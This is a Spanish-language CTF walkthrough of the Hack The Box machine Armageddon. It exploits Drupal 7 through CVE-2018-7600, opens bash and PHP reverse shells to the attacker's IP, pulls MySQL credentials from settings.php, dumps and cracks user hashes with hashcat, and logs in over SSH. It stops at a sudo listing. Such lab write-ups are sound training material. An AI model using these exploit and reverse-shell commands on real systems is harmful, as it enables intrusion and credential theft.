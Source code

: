 # ARMAGEDDON MACHINE

![[Pasted image 20210519224421.png]]

## ENUMERACION

```
nmap -p- --open -T5 -v -n 10.10.10.233 -oG allPorts
```

![[Pasted image 20210519224541.png]]

vemos 2 puertos abiertos, vamos a enumerar sus servicios:

```
nmap -p22,80 -sC -sV -oN targeted
```

![[Pasted image 20210519224859.png]]

El puerto 22 es SSH quiza para conectarnos posteriormente.

El puerto 80 es una pagina web, un drupal 7 en un servidor apache y con PHP 5.4.16. Ademas de un robot.

Veamos que tiene la pagina:

![[Pasted image 20210519225107.png]]

veamos si el robots.txt nosd dice algo:

![[Pasted image 20210519225208.png]]

vemos algunos directorios pero nada interesante.

Veamos con wfuzz si hay algun otro directorio que no nos muestra el robots.txt:

```
wfuzz --hc=404 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt http://10.10.10.233/FUZZ
```

![[Pasted image 20210519225523.png]]

Vemos el directorio sites, vamos a ver que hay ahi:

![[Pasted image 20210519225602.png]]

si vamos a default vemos lo siguiente:

![[Pasted image 20210519225646.png]]

Vemos archivos de configuracion pero con extension en .php y no podemos ver el contenido a nivel web porque nos lo interpreta el .php


## EXPLOTACION

Vamos a buscar en searchsploit si esa version de drupal tiene alguna vulnerabilidad:

```
searchsploit drupal 7
```

![[Pasted image 20210519230219.png]]

Entre muchas cosas vi un RCE en python, lo copiamos en nuestro directorio:

```
searchsploit -m php/webapps/44448.py
```

Y al ver su contenido vemos que tiene un CVE asociado:

![[Pasted image 20210519230345.png]]

Si buscamos en google ese CVE y le agregamos github vemos un repositorio interesante:

[https://github.com/pimps/CVE-2018-7600](https://github.com/pimps/CVE-2018-7600)

Nos descargamos el drupa7-CVE-2018-7600.py:

```
wget https://raw.githubusercontent.com/pimps/CVE-2018-7600/master/drupa7-CVE-2018-7600.py
```

analizamos el codigo y vemos los parametros que tiene:

![[Pasted image 20210519230741.png]]

Vemos que con la opcion **-c** agregamos un comando a ejecutar y por defecto realiza un **id**. ademas se le indica un target que es la pagina con drupal.

Como el script esta en python 3 ("#!/usr/bin/env python3") lo vamos a ejecutar y ver si nos devuelve el comando id:

```
python3 drupa7-CVE-2018-7600.py http://10.10.10.233/
```

![[Pasted image 20210519231039.png]]

vemos que si nos ejecuta comandos remotamente, entonces vamos a entablarnos una reverse shell:

```
python3 drupa7-CVE-2018-7600.py http://10.10.10.233/ -c '/bin/bash -c "bash -i >& /dev/tcp/10.10.14.235/443 0>&1"'

donde 10.10.14.235 es nuestra IP
donde 443 es el puerto al que estamos en escucha con netcat
```

![[Pasted image 20210519231517.png]]

Debe estar con comillas simples la opcion -c para que funcione, en todo caso siempre se debe probar con comillas dobles o simples.

Otra forma que puedes mandar una shell puede ser con php ya que el servidor tiene PHP 5.4.16.

```
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

o tambien mandandolo en base64 codificado, lo decodificamos y lo pipeamos a la bash:

```
# encoding

echo '/bin/bash -c "bash -i >& /dev/tcp/10.10.14.235/443 0>&1"' | base64

# sending

python3 drupa7-CVE-2018-7600.py http://10.10.10.233/ -c 'echo -n "base64_encoded" | base64 -d | sh'
```

El -n en el echo es para no mostrar salida al imprimir:

![[Pasted image 20210519232117.png]]

vemos el contenido en donde nos encontramos y vemos una carpeta sites (que es donde estaban los archivos de configuracion):

![[Pasted image 20210519232333.png]]

vamos a sites/defaults y vemos el contenido del archivo settigns.php:

```
cd sites/default

cat settings.php
```

vamos a ver unas credenciales de mysql:

![[Pasted image 20210519232545.png]]

vamos a ver si nos podemos conectar:

```
mysql -u drupaluser -D drupal -pCQHEy@9M*m23gBVj
```

![[Pasted image 20210519232728.png]]

No nos muestra nada veamos si podemos ejecutar un **show tables;**

![[Pasted image 20210519232825.png]]

si despues de poner la sentencia ponemos un quit si nos muestra el comando, hay un parametro que es el -e que nos ejecuta un comando y al final quit en uno solo:

![[Pasted image 20210519233026.png]]

ahi vamos a ejecutar las sentencias:

```
mysql -u drupaluser -D drupal -pCQHEy@9M*m23gBVj -e 'show tables;'
```

de todas las tablas que se lista vemos una que es users, vamos a realizar que campos tiene:

```
mysql -u drupaluser -D drupal -pCQHEy@9M*m23gBVj -e 'show columns from users;'
```

![[Pasted image 20210519233742.png]]

nos interesa name y pass:

```
mysql -u drupaluser -D drupal -pCQHEy@9M*m23gBVj -e 'select name,pass from users;'
```

![[Pasted image 20210519233859.png]]

tenemos unas credenciales:

* usuario: brucetherealadmin
* hash: $S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt

podemos comprobar que es un usuario del sistema con:

```
cat /etc/passwd
```

![[Pasted image 20210519234100.png]]


vamos a cracker el hash con hashcat:

Existe un modulo de hashcat para contraseñas de drupal 7 que es el 7900:

[https://hashcat.net/wiki/doku.php?id=example_hashes](https://hashcat.net/wiki/doku.php?id=example_hashes)

![[Pasted image 20210519234241.png]]

Y se ve que tiene la misma estructura del hash que tenemos $S$.

Usamos el diccionario rockyou para realizar el cracking:

```
hashcat -a 0 -m 7900 hash /usr/share/wordlists/rockyou.txt

donde hash es un archivo que creamos donde colocamos solo el hash
```

Despues de un rato vemos que logramos obtener la contraseña con --show:

![[Pasted image 20210519234649.png]]

Recordando que el puerto 22 esta abierto vamos a conectarnos:

* usuario: brucetherealadmin
* contraseña: booboo

```
ssh brucetherealadmin@10.10.10.233
booboo
```

![[Pasted image 20210519234835.png]]

Estamos dentro y podemos ver la flag


## ESCALA DE PRIVILEGIOS	

veamos que tenemos con sudo -l:

```
sudo -l
```

![[Pasted image 20210519234925.png]]

Vemos que podemos ejecutar **/usr/bin/snap install** como sudo.

